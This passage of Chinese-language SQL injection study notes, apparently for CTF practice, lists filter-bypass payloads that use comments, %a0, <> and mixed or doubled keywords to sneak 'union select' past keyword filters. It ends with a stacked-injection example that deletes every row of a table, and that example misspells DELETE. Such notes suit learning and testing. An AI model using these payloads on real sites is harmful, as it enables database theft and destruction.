 #### 关键字绕过

##### 1、空格绕过

此时可以用注释符/**/代替

例如

```mysql
union/**/select/**/1,2,database();
```
或者用%a0
```mysql
union%a0select%a01,2,database();
```
或者用比较符号<>绕过
```mysql
union<>select<>1,2,database();
```
##### 2、关键字绕过
绕过union,select,where等
可以通过改变大小写或者穿插使用大小写
```mysql
U/**/ NION /**/ SE/**/ LECT /**/user
```
或者使用内联注释绕过
```mysql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /
*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()# 
```
双关键字绕过（有的题目匹配到字符会自动删除）
```mysql
id=-1'UNIunionONSeLselectECT1,2,3--+
```



### 堆叠注入

#### 定义

Stacked injections（堆叠注入）是一堆sql语句（多条）一起执行，利用sql中“；”是语句的结尾来实现多条语句的同时执行。

#### 原理

在sql中，分号（；）是用来表示一条sql语句的结束。

##### union injection的区别：

union也是将两条语句合并在一起，但是二者是有区别的。

union执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。

##### 例子

1;delect from products。服务器端生成的sql语句为：
select * from products where productid = 1;delect from products。
